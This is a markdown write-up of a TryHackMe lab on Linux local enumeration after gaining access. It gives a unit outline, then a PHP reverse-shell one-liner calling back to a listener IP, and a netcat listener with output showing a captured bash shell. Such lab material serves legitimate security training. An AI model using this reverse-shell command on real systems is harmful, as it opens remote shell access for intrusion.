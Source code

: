 # Linux: Local Enumeration

Learn to efficiently enumerate a linux machine and identify possible weaknesses

[Linux: Local Enumeration](https://tryhackme.com/room/lle)

## 💢 We will cover  the topics

- Linux Local Enumeration



---------------------------------

## Task 1 Introduction

Have you ever found yourself in a situation where you have no idea about "what to do after getting a reverse shell (access to a machine)"?
If your answer was "Yes", this room is **definitely** for you. This rooms aims at providing beginner basis in box enumeration, giving a detailed approach towards it.

Here's a list of units that are going to be covered in this room:

- Unit 1 - Stabilizing the shell
  - Exploring a way to transform a reverse shell into a stable bash or ssh shell.
- Unit 2 - Basic enumaration
  - Enumerate OS and the most common files to identify possible security flaws.
- Unit 3 - /etc
  - Understand the purpose and sensitivity of files under /etc directory.
- Unit 4 - Important files
  - Learn to find files, containing potentially valuable information.
- Unit 6 - Enumeration scripts
  - Automate the process by running multiple community-created enumeration scripts.

Browse to the `MACHINE_UP:3000` and follow the instructions.

To continue with the room material, you need to get a reverse shell using a PHP payload and a netcat listener (nc -lvnp 1234).

How reverse shells work in a nutshell:

![](https://i.imgur.com/WlwnnqK.png)

`php -r '$sock=fsockopen("10.8.106.222",9001);exec("/bin/bash -i <&3 >&3 2>&3");'`

```
kali@kali:~/CTFs/tryhackme/Linux Local Enumeration$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.85.18 41576
bash: cannot set terminal process group (559): Inappropriate ioctl for device
bash: no job control in this shell
manager@py:~/Desktop$
```

1. Let's go!
